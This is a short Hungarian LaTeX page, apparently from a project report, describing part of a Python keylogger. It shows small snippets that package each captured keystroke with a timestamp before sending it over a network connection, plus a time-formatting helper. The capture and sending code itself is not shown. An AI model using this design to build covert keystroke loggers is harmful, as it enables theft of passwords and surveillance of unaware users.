 \documentclass[a4paper, 11pt]{article}
\begin{document}
A billentyűzet lehalgató után felépítődik az adat, amit a kapcsolaton keresztül elküld. Minden adatépítés után a $keys$ változó a $None$ értéket veszi fel. Adatépítésre és küldésre csak akkor kerül sor, ha a $keys$ változó nem $None$.
\begin{lstlisting}{language=Python}
if self.keys is not None:
	date_time = get_time()
	key = str(self.keys).replace("'", "")
	data = ["chars", date_time, key]
	self.keys = None
	data = str(data)
\end{lstlisting}
A $get\_time$ függvény visszatéríti az adott időt ``nap/hónap/év $|$ óra:perc:másodperc'' formátumban.
\begin{lstlisting}{language=Python}
'''
Gets current time

@return: time in dd/mm/yyyy | HH:MM:SS format
'''
def get_time():
	date_time = datetime.now().strftime("%d/%m/%Y | %H:%M:%S")
	return date_time
\end{lstlisting}
A $keys$ változóba karakterként vagy karakterláncként kerül a lenyomott billentyű, ezért le kell cseélni a szélső idézőjeleket üres karakterekre. Karakter helyett akkor kerül karakterlánc, ha olyan karaktereket nyomunk le, amelyek nem nyomtathatóak, például: $ENTER$, $SPACE$, stb. Ilyenkor $Key.enter$ vagy $Key.space$ stb formátumban kapjuk meg.
\end{document}

